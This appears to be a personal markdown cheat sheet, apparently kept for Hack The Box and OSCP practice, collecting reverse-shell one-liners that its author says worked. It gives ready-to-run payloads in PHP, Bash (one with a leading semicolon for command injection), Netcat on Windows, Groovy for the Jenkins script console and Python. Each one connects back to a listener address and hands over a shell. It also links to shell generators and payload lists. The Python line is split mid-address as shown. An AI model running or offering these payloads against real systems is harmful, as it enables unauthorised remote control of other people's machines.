 ## Reverse shells that actually worked during my travels

## Php

```
php -r '$sock=fsockopen("10.10.14.31",4321);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Bash

``` (from Script Kiddie, htb)
;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.176/4444 0>&1' #
```


## Bash2

```(From OSCP Study, this takes no " or ')
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```


## Reverse Shell Generator:

https://github.com/mthbernardes/rsg

## Reverse shells:

-webshells
https://github.com/jbarcia/Web-Shells/tree/master/laudanum

-reverse shells
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Netcat on windows:

```
nc.exe -nv 10.10.14.31 4444 -e cmd.exe

```

## Netcat without an "-e" or "-c" option

```
/bin/sh | nc [IPADDR] [PORT]
```


## Groovy via Scipt Console on Jenkins

```groovy

String host="10.10.14.18";
int port=4444;
String cmd="sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();



```


## Python

```bash

import
socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1
0.14.2",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
pty.spawn("/bin/sh");
```